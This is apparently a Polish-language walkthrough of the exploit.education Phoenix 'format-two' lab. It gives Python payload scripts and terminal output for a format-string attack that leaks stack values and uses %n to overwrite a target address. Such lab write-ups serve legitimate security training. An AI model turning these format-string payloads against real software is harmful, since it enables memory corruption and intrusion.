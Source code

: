 ```python
#!/usr/bin/python

payload = "%X " * 50
padding = "A" * (256 - len(payload))
print(padding + payload)
```

Ciąg trzeba wprowadzić przez `argv[1]`, dlatego lepiej sobie padding zrobić, żeby
nie było żadnych efektów ubocznych typu przesunięcie stosu przez dłuższy ciąg w
zmiennych środowiskowych

```
svu@unassigned:~$ ./amd64/format-two "`./format2/script.py`"
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0 0 FFFFE7E6 1010101 FFFFE44F FFFFE490 FFFFE490 FFFFE590 400745 FFFFE5E8 4003A0 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 41414141 58254141 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 2 F7D8FD62 0 FFFFE5E0 0 F7FFDBC8 3E00 Better luck next time!

svu@unassigned:~$ 
```

Parę adresów i nasz bufor składający się z 0x41 :)
Adres pamięci do zmiany trzeba umieścić na końcu buforu, ponieważ są nam potrzebne
zera na najbardziej znaczących bitach, a w C zero w ciągu oznacza jego koniec,
więc to co będzie za nim nie zostanie skopiowane przez `strncpy()`.

```python
#!/usr/bin/python

import struct

payload = "%X " * 27
payload += struct.pack("Q", 0x6010b0)

padding = "A" * (128 - len(payload))

print(padding + payload)
```
```
svu@unassigned:~$ ./amd64/format-two "`./format2/script.py`"
-bash: warning: command substitution: ignored null byte in input
Welcome to phoenix/format-two, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0 5 0 FFFFE58B FFFFE4CF FFFFE510 FFFFE510 FFFFE610 400745 FFFFE668 4003A0 41414141 41414141 41414141 41414141 41414141 58252058 25205825 20582520 58252058 25205825 20582520 58252058 25205825 20582520 58252058 6010B0 �`Better luck next time!

svu@unassigned:~$
```

Jak widać bash nam przypomina o tym fakcie. To, co również widać to ostatnia
"wydrukowana" liczba - adres, który jest kluczem tego crackme. Wystarczy zmienić
teraz ostatnie `%X` na `%n` i `format-two` ukończone.
